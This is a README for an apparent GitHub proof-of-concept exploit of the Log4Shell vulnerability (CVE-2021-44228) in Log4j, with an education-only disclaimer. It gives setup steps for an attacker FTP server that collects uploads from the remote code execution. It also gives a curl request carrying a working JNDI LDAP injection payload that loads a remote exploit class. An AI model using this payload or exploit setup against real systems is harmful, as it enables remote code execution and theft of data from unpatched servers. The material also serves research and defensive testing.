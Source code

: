 # log4jshell
log4jshell is an full fledged POC that exploit LOG4J vulnerability [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) introduced as part of [LOG4J2-313](https://issues.apache.org/jira/browse/LOG4J2-313)  

```
NOTE : 

PLEASE USE THIS APP ONLY FOR EDUCATION PURPOSE.

THIS APP IS DEVELOPED AS A PROOF OF CONCEPT(POC) AND IS INTENTEDED ONLY FOR EDUCATION PURPOSE. 

USING THIS POC APP TO TARGET AGAINST ANY SYSTEMS WITHOUT CONSENT IS PURELY ILLEGAL.

ANY DAMAGES CAUSED DUE TO ILLEGAL USE OF THIS APP/SOFTWARE/POC IS NOT THE RESPONSIBILITY OF THE AUTHOR.

```

## Pre-requisites
* [Python 3](https://www.python.org/downloads/)
* [Java 1.8](https://docs.oracle.com/javase/8/docs/technotes/guides/install/install_overview.html)
* [Apache Tomcat 1.9](https://tomcat.apache.org/download-90.cgi)
* [IntelliJ CE or Eclipse](https://www.jetbrains.com/idea/)


## Installation

Use the python package manager [pip3](https://pip.pypa.io/en/stable/) to install foobar.

```bash
pip3 install pyftpdlib
```

Create the FTP upload directory where the RCE will upload the information

```bash
mkdir -p /tmp/ftpuploads
```

Start the FTP Server locally
```bash
python3 src/main/python/attacker/ftp-server.py
```

## Usage

```bash
curl --location --request GET 'http://localhost:8080/log4jshell/search' \
--header 'Content-Type: application/json' \
--data-raw '{
    "searchText" : "${jndi:ldap://localhost:8389/com.demo.exploit.log4jshell.Exploit.class}"
}
'
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Acknowledgments

Some of the references code that I have used to build this POC are listed below

* [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
* [rfc2713](https://datatracker.ietf.org/doc/html/rfc2713)
* [marshalsec](https://github.com/mbechler/marshalsec)
* [veracode-research](https://github.com/veracode-research/rogue-jndi)
* [black hat](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)


